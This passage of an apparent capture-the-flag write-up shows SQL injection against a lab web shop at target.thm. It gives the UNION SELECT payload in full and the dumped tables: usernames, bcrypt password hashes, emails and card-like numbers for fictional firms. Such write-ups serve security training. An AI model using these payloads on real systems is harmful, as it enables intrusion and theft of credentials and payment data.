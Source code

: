 With that information, I could finally extract the data from the table with '[20 UNION SELECT 1, CONCAT(id, ' - ', username, ' - ', _password, ' - ', email), 3, 4, 5, 6, 7, 8 FROM system_user LIMIT 0, 1](http://target.thm/products/20%20UNION%20SELECT%201,%20CONCAT(id,%20'%20-%20',%20username,%20'%20-%20',%20_password,%20'%20-%20',%20email),%203,%204,%205,%206,%207,%208%20FROM%20system_user%20LIMIT%200,%201)'. 

```
1 - server-admin - $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a - sadmin@duckyinc.org

2 - kmotley - $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa - kmotley@duckyinc.org

3 - dhughes - $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK - dhughes@duckyinc.org
```

I used the same method to get the columns and the data from the `user` table.

* id
* username
* _password
* credit_card
* email
* company


```
1 - jhenry - $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa - 4338736490565706 - sales@fakeinc.org - Fake Inc

2 - smonroe - $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm - 355219744086163 - accountspayable@ecorp.org - Evil Corp

3 - dross - $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C - 349789518019219 - accounts.payable@mcdoonalds.org - McDoonalds Inc

4 - ngross - $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO - 4499108649937274 - sales@ABC.com - ABC Corp

5 - jlawlor - $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu - 4563593127115348 - sales@threebelow.com - Three Below

6 - mandrews - $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC - REDACTED - ap@krasco.org - Krasco Org

7 - dgorman - $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm - 4905698211632780 - payable@wallyworld.com - Wally World Corp

8 - mbutts - $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS - 4690248976187759 - payables@orlando.gov - Orlando City

9 - hmontana - $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem - 375019041714434 - sales@dollatwee.com - Dolla Twee

10 - csmith - $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 - 364774395134471 - sales@ofamdollar - O! Fam Dollar
```
